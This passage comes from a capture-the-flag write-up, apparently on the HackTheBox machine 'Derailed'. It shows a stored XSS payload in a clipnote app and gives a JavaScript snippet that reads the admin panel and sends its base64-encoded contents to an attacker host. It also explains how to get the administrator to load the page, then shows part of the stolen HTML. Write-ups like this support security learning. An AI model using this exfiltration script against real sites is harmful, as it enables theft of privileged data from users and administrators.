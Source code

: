 This payload worked! I was able to retrieve two callbacks after creating the clipnote.

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

Now we can use a script from Hacktricks to steal the page content of the administration panel.&#x20;

```javascript
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.29/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

Then, we can send it via the same method **and make sure to report the clipnote to make the administrator load the page.**

Here is the page contents:

```markup
<!DOCTYPE html>
<html>
<head>
  <title>derailed.htb</title>
  <meta name="viewport" content="width=device-width,initial-scale=1">
  <meta charset="utf-8"/>
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no"/>

  <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="ai4X_c_tZvC3ki96jPtvknwCMO09xlyDCELsf-J6ZApWjImNydnSRPjXQmz00ViOwDEv-RsQ__aIs2UAQQ9eyw" />
  

  <!-- Warning !! ensure that "stylesheet_pack_tag" is used, line below -->
  
  <script src="/packs/js/application-135b5cfa2df817d08f14.js" data-turbolinks-track="reload"></script>

  <link href="/js/vs/editor/editor.main.css" rel="stylesheet"/>
  <!-- Favicon-->
  <link rel="icon" type="image/x-icon" href="/assets/favicon.ico"/>
  <!-- Font Awesome icons (free version)-->
  <script src="https://use.fontawesome.com/releases/v6.1.0/js/all.js" crossorigin="anonymous"></script>
  <!-- Google fonts-->
  <link href="https://fonts.googleapis.com/css?family=Montserrat:400,700" rel="stylesheet" type="text/css"/>
  <link href="https://fonts.googleapis.com/css?family=Lato:400,700,400italic,700italic" rel="stylesheet" type="text/css"/>
  <!-- Core theme CSS (includes Bootstrap)-->
  <link href="/css/styles.css" rel="stylesheet"/>
</head>
<body id="page-top">
<!-- Navigation-->
<nav class="navbar navbar-expand-lg bg-secondary text-uppercase fixed-top" id="mainNav">
  <div class="container">
    <a class="navbar-brand" href="/">CLIPNOTES</a>
    <button class="navbar-toggler text-uppercase font-weight-bold bg-primary text-white rounded" type="button" data-bs-toggle="collapse" data-bs-target="#navbarResponsive" aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation">
```